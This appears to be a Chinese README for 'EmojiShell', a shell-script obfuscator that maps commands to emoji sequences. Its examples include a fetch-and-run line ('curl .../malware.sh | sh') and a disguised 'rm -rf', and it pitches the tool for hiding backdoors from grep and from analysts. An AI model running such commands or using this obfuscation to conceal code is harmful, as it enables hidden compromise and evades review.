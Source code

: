 🌟 EmojiShell | 用表情包守护你的 Shell 脚本

项目定位：

一个专注于 Emoji 混淆技术 的 Shell 脚本安全工具库，通过将敏感代码转换为颜文字、符号组合和动态字体，实现 视觉迷惑 与 逆向防御 的平衡。

🔑 核心功能

1. Emoji 代码伪装
   - 将 
"rm -rf" 转换为 
"✂️➡️🚫📁"，混淆关键指令
   - 支持自定义 Emoji 映射表（如 
"🐚=echo", 
"😈=sudo"）
2. 动态混淆引擎
   - 基于 Shell 的运行时语法代码加密（每次执行自动变换 Emoji 形式）
   - 结合 多种混合加密的 Emoji 编码方案
3. 反调试陷阱
   - 通过 
"$RANDOM" 生成伪随机 Emoji 流干扰静态分析
4. Shell 加壳工具
   - 一键生成混淆后的 
".sh" 二进制文件（兼容 Linux/macOS）
   - 支持自定义 Shell 解释器内容

🎯 技术亮点

- 立即部署：
“使用 Shell 来加密 Shell”
- 视觉欺骗设计：
EmojiCode

# 原始命令
curl https://example.com/malware.sh | sh

# EmojiShell 版本
$(🐚) $(☕)$(🌐)$(📡)$(🔍)$(🚪)$(💻) | $(💻)
- 可扩展性：
   - 兼容 
"zsh"/
"ash" 等非标准 Shell 环境

🚀 快速上手

# 安装依赖
git clone https://github.com/haothtrteen/EmojiShell.git
cd EmojiShell && chmod +x install.sh

# 混淆示例
echo "whoami" | ./emoji-obfuscator --level hard
# 输出：$(📡)$(🔍)$(🚪)$(💻)

# 生成全加密脚本
修改 EmojiCode.sh 文件中指定的加密文件路径
`text="example.sh" #原脚本绝对路径`
将 example.sh 替换为你要加密的shell文件路径后执行加密脚本即可

🛡️ 应用场景

- 敏感脚本保护：运维脚本、自动化渗透测试工具
- 代码混淆教学：逆向工程实验、CTF 题目设计
- 沙雕开发：用 Emoji 写出无法被 grep 搜索到的隐藏后门 😈

📜 许可证

- MIT License（开源自由，但禁止用于非法活动）
- 商业授权：企业级定制化混淆规则需联系 
"2557976190@qq.com"

🤝 参与贡献

1. Fork 仓库并提交 PR（如新增 Emoji 编码规则）
2. 报告漏洞至 Issues（标注 
"[Security]" 标签）
3. 在 Twitter 带话题 
"#EmojiShell" 分享你的混淆成果 🚀

最后更新：2025-09-10

项目愿景：让 Shell 脚本成为逆向工程师的噩梦 🧟♂️💻

设计思路

1.  Shell语法
2. 尝试通过emoji来代替函数变量
3. 编写自动化加密工具


# 目前仍存在的bug以及需要更新的功能

- 在执行复杂命令或语法时会无法运行，正在尝试修复（暂时尝试使用跳过关键指令加密来修复）
- 在ash（Android系统终端环境）中运行并不是特别理想在尝试优化
- 目前只支持对“0~9,a~z”所有的数字及英文字母进行加密，对特殊字符语言的加密需要更新
